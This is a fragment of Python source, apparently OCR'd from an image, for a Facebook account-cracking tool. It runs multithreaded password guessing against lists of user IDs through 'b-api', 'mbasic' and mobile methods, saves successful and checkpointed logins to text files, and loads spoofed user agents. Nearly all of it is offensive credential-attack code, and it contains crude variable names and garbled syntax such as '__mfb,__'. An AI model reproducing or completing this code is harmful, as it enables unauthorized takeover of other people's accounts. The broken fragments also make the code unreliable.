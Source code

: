                             os.remove(self.apk)
                            hasil(ok,cp)
                        elif boy == "2" or boy == "02":
                            IMTIAZ_AKING('\n[•] Result OK saved to IDREESOK.txt')
                            IMTIAZ_AKING('[•] Result CP saved to IDREESCP.txt')
                            IMTIAZ_AKING('\n\tCrack Processing...\n\n'); 
                            with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('|')[0]
                                        _ngentot_gratis_.submit(self.__mbasic__, kimochi, bse)
                                    except: pass
                            os.remove(self.apk)
                            hasil(ok,cp)
                        elif boy == "3" or boy == "03":
                            IMTIAZ_AKING('\nHasil RESULTS Tersimpan Di > multiresuts.txt')
                            IMTIAZ_AKING('[•] Result CP saved to CP.txt')
                            IMTIAZ_AKING('\n\tCrack Processing...\n\n')
                            IMTIAZ_AKING('\n\tCrack Processing...\n\n'); 
                            with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('|')[0]
                                        _ngentot_gratis_.submit(self.__mfb,__, kimochi, bse)
                                    except: pass
 
                            os.remove(self.apk)
                            hasil(ok,cp)
                        else:
                            #IMTIAZ_AKING('\nSalah')
                            exit()
                    #IMTIAZ_AKING('\n\t         METHOD SELECTکه')
                    IMTIAZ_AKING('\n01.) Metode b-api ')
                    IMTIAZ_AKING('02.) Metode mbasic ')
                    IMTIAZ_AKING('03.) Metode Mobile ')
                    _sempak_(pwek.split(','))
                    break
        elif _jokowi_kontol_ in ('Y', 'y'):
            print (' \x1b[1;91m❥━[\x1b[1;93m•\x1b[1;91m]\x1b[1;93m=============================================')
            IMTIAZ_AKING('\n\t------[ Method Crack ]-----')
            print (' \x1b[1;91m❥━[\x1b[1;93m•\x1b[1;91m]\x1b[1;93m=============================================')
            IMTIAZ_AKING(' [1]🇮‌🇩‌🇷‌🇪‌🇪‌🇸‌  Method 1 ')
            IMTIAZ_AKING(' [2]🇮‌🇩‌🇷‌🇪‌🇪‌🇸‌ Method 2  [ Pro ]')
            IMTIAZ_AKING(' [3]🇮‌🇩‌🇷‌🇪‌🇪‌🇸‌  Method 3   ')
            print (' \x1b[1;91m❥━[\x1b[1;93m•\x1b[1;91m]\x1b[1;93m=============================================')
            self.__pler__()
        else:
            #IMTIAZ_AKING('\nLu kok kayak jmbt ya?')
            exit()
        return
    def __api__(self, user, _sempak_):
        global ok,cp,loop
        sys.stdout.write('\r\033[1;92m [SUBHAN] %s/%s  \033[1;92mIDREESOK-:%s / \033[1;91mIDREESDIEDCP-:%s'%(loop,len(self.id),len(ok),len(cp))),
        sys.stdout.flush()
        for pw in _sempak_:
            pw = pw.lower()
            try: os.mkdir('')
            except: pass
            try:
                ua_xiaomi = IMTIAZ('agent.txt', 'r').read()